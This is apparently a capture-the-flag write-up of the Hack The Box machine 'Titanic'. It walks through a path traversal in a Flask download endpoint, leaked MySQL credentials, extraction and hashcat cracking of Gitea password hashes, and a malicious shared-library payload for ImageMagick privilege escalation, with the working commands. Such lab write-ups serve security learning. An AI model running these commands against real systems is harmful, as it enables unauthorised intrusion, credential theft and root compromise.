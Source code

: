  Titanic (Linux)

First thing first, I ran `nmap -sVC` on the targets IP address.

## Nmap
22 SSH
80 TCP
Are both open. 

I opened up the IP address on a web browser but nothing loads. Porbaly need to add into our /etc file
Once we Added into our `/etc/hosts`; I gave it some time and right afterwards I had access to the website on my local machine. 

## titanic.htb
**Book Your Trip** button downloads a json file unto your machine, when filled out appropriately.
The buttons on the header dont work other than **Book Now** which does the same as **Book Your Trip**

## Fuzzing
200 on subdomain **dev**
Added to my `/etc/hosts` and visited the webpage.
Running on Gitea Version: 1.22.1; checked for any vuln but as of now based of what I saw on Github, the most recent one has been patched. 

I went into the **Explore** button and found the repository for this application. 
One of the repo had **docker-config** that also had **mysql** folder that had a **docker-compose.yml** file:

```
version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always

```

gitea folder also had a **docker-compose.yml**

```
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

Notice and rememeber the paths we have come across.

While looking at the other repository I came across **app.py** and checked for any vuln.

```
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

```
1. Ticket comes directly from user input (request.args.get('ticket')).
2. There is no validation to ensure the filename is within TICKETS_DIR.

## Curl
`curl http://titanic.htb/download?ticket=../../../../etc/passwd`
This contained a list of users on the system

`developer:x:1000:1000:developer:/home/developer:/bin/bash`
This is likely a human user with a real home directory.

Why not try and do the same with curl again.. Since we know the file we are looking for (**user.txt**), we can insert that into our `curl` command.
`curl http://titanic.htb/download?ticket=../../../../home/developer/user.txt`

**User Flag Pwned**

## Stil on curl
Since I have been using curl thus far I thought to continue on using it. 
`curl -o gitea.db "http://titanic.htb/downloadticket=../../../../home/developer/gitea/data/gitea/gitea.db"`
Using the `-o` flag tells `curl` to save the downloaded content to a file (**gitea.db**). 
And I am still using [path traversal](https://github.com/mksiki/notes/blob/main/path_traversal.md). 

## SQLite3 
[Analyzed and used to extract password hashes](https://github.com/mksiki/notes/blob/main/sqlite3_ex.md). 
```

sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

```

## Hashcat 
`hashcat -m 10900 gitea.hashes /usr/share/wordlists/rockyou.txt --username`
After finding the password I used ssh to get into the machine. See theuser flag that I already got but also files that we also already saw before.

## SSH (privilege escalation)
Located `/opt/` [directory](https://github.com/mksiki/notes/blob/main/opt.md) which we used to explore. 
`/scripts/` then used `cat` to explore the contents of the file that was inside.

Checked for `magick -version` that was used to exploit; simple Google search. 
Looked at the poc and used this,

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF

```
Ran this code in the `/opt/app/static/assets/images/`
This directory is writable and accessible, making it a suitable location to upload or execute arbitrary code. [Example](https://github.com/mksiki/notes/blob/main/opt.md)

3-5 seconds I `ls` and saw `root.txt`.
PWNED!
